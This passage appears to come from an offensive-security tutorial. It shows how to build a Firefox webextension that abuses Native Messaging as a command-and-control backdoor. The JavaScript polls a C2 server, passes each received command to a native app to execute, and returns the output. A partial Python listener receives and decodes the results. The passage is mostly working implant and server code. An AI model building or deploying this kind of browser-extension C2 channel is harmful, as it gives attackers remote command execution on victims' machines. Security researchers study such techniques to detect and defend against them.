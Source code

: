 I'll not explain all the parameters, but the most important here is the value inside `.application | .gecko | .id`. This value contains the same id that was set on the native messaging app, and the value `nativeMessaging` inside the attribute `permissions`, which specifies to Firefox that the webextension has the ability to use Native Messaging Apps. 

Now let's create a webexntesion to interact with our c2 server.
```javascript
var port;
var timeout = 1000;
var result = "none";

var sendMessage = function(){
  server = "http://127.0.0.1:8081/";
  var oReq = new XMLHttpRequest();
  oReq.open('POST',server,true)
  oReq.setRequestHeader('Content-type', 'application/x-www-form-urlencoded')

  oReq.onerror = function (e) {
    setTimeout(sendMessage,timeout); }

  oReq.ontimeout = function (e) {
    setTimeout(sendMessage,timeout);
  }

  oReq.onload = function(oEvent) {
    if (oReq.status == 200){
      var cmd = oReq.response
      if (cmd != ""){
        console.log(cmd)
        port = browser.runtime.connectNative("execution");
        port.onMessage.addListener((response) => {
          result = response;
          port.disconnect();
        });
        port.postMessage(cmd);
      }
      setTimeout(sendMessage,timeout);
    }
  };
  oReq.send("response="+result);
  result = "none"
}
setTimeout(sendMessage,timeout);
```
Basically this javascript code connects to the c2 server, waits for a command, then it executes after the command is received.
And the server side is just a simple http server written in python.
```python
import cgi
import threading
from urlparse import urlparse, parse_qs
from SocketServer import ThreadingMixIn
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):

    def do_POST(self):
        self.send_response(200)
        self.end_headers()
        message =  threading.currentThread().getName()
        form = cgi.FieldStorage(fp=self.rfile,headers=self.headers,environ={'REQUEST_METHOD': 'POST'})
        result = form.getvalue("response")
        if result != "none":
            print(result.decode('base64'))
```